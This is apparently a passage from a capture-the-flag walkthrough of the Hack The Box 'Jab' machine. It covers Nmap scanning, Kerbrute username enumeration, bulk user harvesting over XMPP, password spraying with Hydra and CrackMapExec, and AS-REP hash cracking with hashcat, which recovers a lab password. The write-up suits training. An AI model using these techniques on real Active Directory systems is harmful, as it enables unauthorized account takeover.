





*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Tue Feb 27 14:46:12 2024 as: nmap -p- -v -o nmap_allports.txt -Pn 10.129.164.20
Nmap scan report for 10.129.164.20
Host is up (0.051s latency).
Not shown: 65499 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5222/tcp  open  xmpp-client
5223/tcp  open  hpvirtgrp
5262/tcp  open  unknown
5263/tcp  open  unknown
5269/tcp  open  xmpp-server
5270/tcp  open  xmp
5275/tcp  open  unknown
5276/tcp  open  unknown
5985/tcp  open  wsman
7070/tcp  open  realserver
7443/tcp  open  oracleas-https
7777/tcp  open  cbt
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49686/tcp open  unknown
49687/tcp open  unknown
49688/tcp open  unknown
49693/tcp open  unknown
49766/tcp open  unknown
63776/tcp open  unknown
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Tue Feb 27 14:47:26 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5222,5223,5262,5263,5269,5270,5275,5276,5985,7070,7443,7777,9389,47001,49664,49665,49666,49667,49671,49686,49687,49688,49693,49766,63776, -sC -sV -v -o nmap_servicesversions.txt 10.129.164.20
Nmap scan report for 10.129.164.20
Host is up (0.049s latency).

PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-02-27 13:47:32Z)
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-27T13:48:49+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-27T13:48:49+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
|_ssl-date: 2024-02-27T13:48:49+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
|_ssl-date: 2024-02-27T13:48:49+00:00; 0s from scanner time.
5222/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     features: 
|     stream_id: 58i8pfzzpe
|     compression_methods: 
|     auth_mechanisms: 
|     xmpp: 
|_      version: 1.0
|_ssl-date: TLS randomness does not represent time
5223/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     errors: 
|       (timeout)
|     features: 
|     xmpp: 
|     compression_methods: 
|     auth_mechanisms: 
|_    capabilities: 
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
|_ssl-date: TLS randomness does not represent time
5262/tcp  open  jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     features: 
|     stream_id: 4krtohria1
|     compression_methods: 
|     auth_mechanisms: 
|     xmpp: 
|_      version: 1.0
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5263/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
|_ssl-date: TLS randomness does not represent time
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     errors: 
|       (timeout)
|     features: 
|     xmpp: 
|     compression_methods: 
|     auth_mechanisms: 
|_    capabilities: 
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
5269/tcp  open  xmpp                Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     errors: 
|       (timeout)
|     features: 
|     xmpp: 
|     compression_methods: 
|     auth_mechanisms: 
|_    capabilities: 
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
|_ssl-date: TLS randomness does not represent time
5275/tcp  open  jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     capabilities: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     features: 
|     stream_id: 8e1xm6uh4n
|     compression_methods: 
|     auth_mechanisms: 
|     xmpp: 
|_      version: 1.0
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5276/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
|_ssl-date: TLS randomness does not represent time
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     errors: 
|       (timeout)
|     features: 
|     xmpp: 
|     compression_methods: 
|     auth_mechanisms: 
|_    capabilities: 
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7070/tcp  open  realserver?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 27 Feb 2024 13:47:32 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 27 Feb 2024 13:47:38 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
7443/tcp  open  ssl/oracleas-https?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 27 Feb 2024 13:47:45 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 27 Feb 2024 13:47:50 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Issuer: commonName=dc01.jab.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-26T22:00:12
| Not valid after:  2028-10-24T22:00:12
| MD5:   3317:65e1:e84a:14c2:9ac4:54ba:b516:26d8
|_SHA-1: efd0:8bde:42df:ff04:1a79:7d20:bf87:a740:66b8:d966
|_ssl-date: TLS randomness does not represent time
7777/tcp  open  socks5              (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
9389/tcp  open  mc-nmf              .NET Message Framing
47001/tcp open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc               Microsoft Windows RPC
49665/tcp open  msrpc               Microsoft Windows RPC
49666/tcp open  msrpc               Microsoft Windows RPC
49667/tcp open  msrpc               Microsoft Windows RPC
49671/tcp open  msrpc               Microsoft Windows RPC
49686/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc               Microsoft Windows RPC
49688/tcp open  msrpc               Microsoft Windows RPC
49693/tcp open  msrpc               Microsoft Windows RPC
49766/tcp open  msrpc               Microsoft Windows RPC
63776/tcp open  msrpc               Microsoft Windows RPC
4 services unrecognized despite returning data.
```

A disproportionate amount of open doors. A disproportionate amount of open doors. The domain "jab.htb" is added to the hosts file.

Anonymous access is allowed. enum4linux does not seem to return useful information.

```shell
$ crackmapexec smb $IP -u 'guest' -p ''                  
SMB         10.129.164.20   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.129.164.20   445    DC01             [-] jab.htb\guest: STATUS_ACCOUNT_DISABLED

$ crackmapexec smb $IP -u '' -p ''         
SMB         10.129.164.20   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.129.164.20   445    DC01             [+] jab.htb\:
```

Many TCP ports seem to be about a certain "Jabber":
- 5222 - Ignite Realtime Openfire Jabber server 3.10.0 or later
- 5223 - Ignite Realtime Openfire Jabber server 3.10.0 or later
- 5262 - jabber
- 5263 - Ignite Realtime Openfire Jabber server 3.10.0 or later
- 5269 - Wildfire XMPP Client
- 5270 - Wildfire XMPP Client
- 5275 - jabber
- 5276 - Ignite Realtime Openfire Jabber server 3.10.0 or later
- 7070 - Openfire service
- 7443 - Openfire service
- 7777

With online searches one learns about Jabber: it is an instant messaging application based on the XMPP protocol.

You have downloaded an XMPP client (in my case I will use [Gajim](https://gajim.org/)) and you go looking for how to attack and/or verify the security of an XMPP-based system. An article discussing the security of XMPP servers is identified: [https://bishopfox.com/blog/xmpp-underappreciated-attack-surface](https://bishopfox.com/blog/xmpp-underappreciated-attack-surface).

After downloading the client, registration to the server is recommended in the article.


Check for anonymous access.


Unfortunately, through anonymous registration, it does not seem to be possible to do much. So let's try classical registration.


Even with a 'classic' registration, it does not seem to be possible to do much. In Gajim, there is a feature that allows one to search for contacts with whom to start a chat. Unfortunately, we do not know any users. We could, however, exploit the Kerberos protocol on port 88 to identify any users in the system. Kerbrute is used for this purpose. We also use the "names.txt" wordlist of "seclists".

We succeed in identifying a number of users.

```shell
$ ./kerbrute_linux_amd64 userenum --dc 10.129.164.20 -d jab.htb /usr/share/wordlists/seclists/Usernames/Names/names.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/27/24 - Ronnie Flathers @ropnop

2024/02/27 17:51:32 >  Using KDC(s):
2024/02/27 17:51:32 >   10.129.164.20:88

2024/02/27 17:51:33 >  [+] VALID USERNAME:       alane@jab.htb
2024/02/27 17:51:39 >  [+] VALID USERNAME:       callen@jab.htb
2024/02/27 17:51:45 >  [+] VALID USERNAME:       drew@jab.htb
2024/02/27 17:51:46 >  [+] VALID USERNAME:       elane@jab.htb
2024/02/27 17:51:47 >  [+] VALID USERNAME:       ely@jab.htb
2024/02/27 17:52:02 >  [+] VALID USERNAME:       leaton@jab.htb
2024/02/27 17:52:29 >  Done! Tested 10177 usernames (6 valid) in 57.254 seconds
```

With Gajim, we cannot get any information as we get a strange error: 'SSL Certificate Verification Error'.


Another XMPP client is then used: [pidgin](https://pidgin.im/install/). After installation (`sudo apt install pidgin`), an account is set up.


Browsing through pidgin's settings, it seems to be possible to search for rooms.


Two rooms are identified:
- test
- test2


Only the 'test2' room can be joined. In the room 'test2' there is a message from user bdavis.


The base64 of the image is decoded. No good result.

```shell
$ echo -n 'VGhlIGltYWdlIGRhdGEgZ29lcyBoZXJlCg==' | base64 -d                    
The image data goes here
```

Another interesting feature is the possibility of searching for users on the server (credit: [https://issues.imfreedom.org/issue/PIDGIN-7357](https://issues.imfreedom.org/issue/PIDGIN-7357). Here are the steps:  Accounts-> {select account here} -> Search for Users -> Enter a User Directory -> Search Directory ->Advanced User Search, at "Search:" enter * (with Username, Name, Email all checked) -> Search Results all displayed

A lot of usernames are identified.



In pidgin, there is no functionality for which search results can be exported. Starting pidgin in debug mode (`pidgin -d`), however, shows the data exchanged between client and server in the terminal.


It then started pidgin again, saving all logs in a file using the command: `pidgin -d | tee rawusers.txt`. After making the query extracting all users from the XMPP server, pidgin was stopped and a regex rule was used to extract all mails from the text file.

```shell
$ grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" rawusers.txt | head -n50
asd@jab.htb
lmccarty@jab.htb
lmccarty@jab.htb
nenglert@jab.htb
nenglert@jab.htb
aslater@jab.htb
aslater@jab.htb
rtruelove@jab.htb
rtruelove@jab.htb
pwoodland@jab.htb
pwoodland@jab.htb
pparodi@jab.htb
pparodi@jab.htb
mhernandez@jab.htb
mhernandez@jab.htb
atorres@jab.htb
atorres@jab.htb
apugh@jab.htb
apugh@jab.htb
lray@jab.htb
lray@jab.htb
rowens@jab.htb
rowens@jab.htb
mherron@jab.htb
mherron@jab.htb
larroyo@jab.htb
larroyo@jab.htb
csalinas@jab.htb
csalinas@jab.htb
[...]
```

It works. Now the output must be cleaned up by removing duplicates.

```shell
$ grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" rawusers.txt | sort | uniq | head -n10
aaaron@jab.htb
aallen@jab.htb
aaltman@jab.htb
aanderson@jab.htb
aarrowood@jab.htb
abanks@jab.htb
abarr@jab.htb
abeaubien@jab.htb
abeckner@jab.htb
abernard@jab.htb
$ grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" rawusers.txt | sort | uniq > emails.txt
$ wc -l emails.txt                                                                                              
2697 emails.txt
$ cat emails.txt| cut -d '@' -f1 > users.txt
```

Very good. Now we have 2697 username.


What have I tried with the list of usernames?
- XMPP bruteforce: `hydra -C users.txt xmpp://10.129.98.88` - no credentials found
- SMB bruteforce: `crackmapexec smb 10.129.98.88 -u users.txt -p users.txt --no-bruteforce` - no credentials found

Let's do another check: let's see if any users are AS-REP roastable.


Three users are kerberostable:
- jmontgomery
- lbradford
- mlowe

AS-REP tickets are saved in a file and bruteforce is attempted.

```shell
$ hashcat -m 18200 usersASREP.txt /usr/share/wordlists/rockyou.txt
[...]
$krb5asrep$23$jmontgomery@JAB.HTB:691658bc2c695fe62003da740453b79a$c96bad2cf3d17594edb4bcabe0fee4fd1acc6c0d7350c0ee456646d3678f9c3e725c748a89c050ecbe65ffae0c9166735509e48c2479023c881fb1f2567c4fdfaa7b75a37aab50b4ab2d41ca5924c50cbf7abe19fbfcfa8e5f13213144535ddf951f734295f20a8e8c7bab0ff1700bfb9b25e0dc89f6289703277ccbd7cc7cd9f1b195155a6c1d17349523d19219b4a4c2956cf2cb473c38ca1c20e223e407a952ea7b788b98b4a80b1e8a150b73be85deabfa971bd7d19f1d06e13ec97691161abf003b53c68e488a880f7a6ba7855d9018ec480f8c0a0b5fffaf7e5c5fc9b6e7db:Midnight_121
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: usersTGS.txt
Time.Started.....: Wed Feb 28 15:48:29 2024 (58 secs)
Time.Estimated...: Wed Feb 28 15:49:27 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   615.0 kH/s (0.86ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/3 (33.33%) Digests (total), 1/3 (33.33%) Digests (new), 1/3 (33.33%) Salts
Progress.........: 43033155/43033155 (100.00%)
Rejected.........: 0/43033155 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 38%

Started: Wed Feb 28 15:48:07 2024
Stopped: Wed Feb 28 15:49:29 2024
```



Finally, credentials are obtained: user 'jmontgomery' with password 'Midnight_121'. I use these credentials to log back on to the XMPP server with pidgin. With such an account I search for new rooms.


I find a room called 'pentest2003'. Very interesting. I join the room.




